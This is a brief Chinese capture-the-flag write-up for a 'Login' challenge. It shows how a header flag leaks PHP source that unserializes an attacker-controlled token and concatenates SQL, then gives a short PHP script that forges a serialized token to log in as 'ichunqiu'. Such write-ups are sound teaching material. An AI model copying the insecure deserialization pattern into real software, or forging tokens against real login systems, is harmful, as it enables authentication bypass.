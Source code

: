 ## Login
F12 中提示账户密码都为 `test1`，登录后在响应头中发现 `show` 字段，把 0 在请求头改成 1 试试，发现注释中返回了源码。


```php
<?php
	include 'common.php';
	$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
	class db
	{
		public $where;
		function __wakeup()
		{
			if(!empty($this->where))
			{
				$this->select($this->where);
			}
		}

		function select($where)
		{
			$sql = mysql_query('select * from user where'.$where);
			return @mysql_fetch_array($sql);
		}
	}

	if(isset($requset['token']))
	{
		$login = unserialize(gzuncompress(base64_decode($requset['token'])));
		$db = new db();
		$row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
		if($login['user'] ==='ichunqiu')
		{
			echo $flag;
		}else if($row['pass'] !== $login['pass']){
			echo 'unserialize injection!!';
		}else{
			echo "(╯‵□′)╯︵┴─┴ ";
		}
	}else{
		header('Location: index.php?error=1');
	}

?>
```


这里需要以 `ichunqiu` 登录，关键就在于那个反序列化的过程。而且，`array_merge` 合并时，遇到相同的键取最后的那个值。

写个脚本生成需要的 `token`，然后放在 cookie 里发送就好了。
```php
<?php
  $a = array('user' => 'ichunqiu');
  echo base64_encode(gzcompress(serialize($a)));
?>
```
